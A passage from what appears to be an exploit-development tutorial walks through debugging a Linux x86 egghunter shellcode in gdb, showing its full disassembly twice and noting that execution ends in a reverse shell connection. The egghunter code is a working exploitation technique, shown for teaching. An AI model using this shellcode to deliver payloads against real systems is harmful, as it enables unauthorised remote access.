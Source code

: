 Wee can see that our egghunter code and our buffer are in fact in two
separate places within memory. We add a breakpoint at the beginning of
our egghunter code:

{% highlight bash %}
(gdb) disassemble
Dump of assembler code for function egghunter:
=> 0x08049880 <+0>:	xor    edx,edx
   0x08049882 <+2>:	or     dx,0xfff
   0x08049887 <+7>:	inc    edx
   0x08049888 <+8>:	lea    ebx,[edx+0x4]
   0x0804988b <+11>:	push   0x21
   0x0804988d <+13>:	pop    eax
   0x0804988e <+14>:	int    0x80
   0x08049890 <+16>:	cmp    al,0xf2
   0x08049892 <+18>:	je     0x8049882 <egghunter+2>
   0x08049894 <+20>:	mov    eax,0x90509050
   0x08049899 <+25>:	mov    edi,edx
   0x0804989b <+27>:	scas   eax,DWORD PTR es:[edi]
   0x0804989c <+28>:	jne    0x8049887 <egghunter+7>
   0x0804989e <+30>:	scas   eax,DWORD PTR es:[edi]
   0x0804989f <+31>:	jne    0x8049887 <egghunter+7>
   0x080498a1 <+33>:	jmp    edi
   0x080498a3 <+35>:	add    BYTE PTR [eax],al

{% endhighlight %}

We place another breakpoint at our `jmp edi` instruction.
If this instruction is hit and executes it means that our
egghunter has found our marker and that it is about to
execute the code right after our marker. As we can see
in the gdb output our `jmp edi` does in fact get hit.


{% highlight bash %}

(gdb) disassemble
Dump of assembler code for function egghunter:
   0x08049880 <+0>:	xor    edx,edx
   0x08049882 <+2>:	or     dx,0xfff
   0x08049887 <+7>:	inc    edx
   0x08049888 <+8>:	lea    ebx,[edx+0x4]
   0x0804988b <+11>:	push   0x21
   0x0804988d <+13>:	pop    eax
   0x0804988e <+14>:	int    0x80
   0x08049890 <+16>:	cmp    al,0xf2
   0x08049892 <+18>:	je     0x8049882 <egghunter+2>
   0x08049894 <+20>:	mov    eax,0x90509050
   0x08049899 <+25>:	mov    edi,edx
   0x0804989b <+27>:	scas   eax,DWORD PTR es:[edi]
   0x0804989c <+28>:	jne    0x8049887 <egghunter+7>
   0x0804989e <+30>:	scas   eax,DWORD PTR es:[edi]
   0x0804989f <+31>:	jne    0x8049887 <egghunter+7>
=> 0x080498a1 <+33>:	jmp    edi
   0x080498a3 <+35>:	add    BYTE PTR [eax],al

{% endhighlight %}

We allow the program to continue and we end up with our
reverse shell connection.
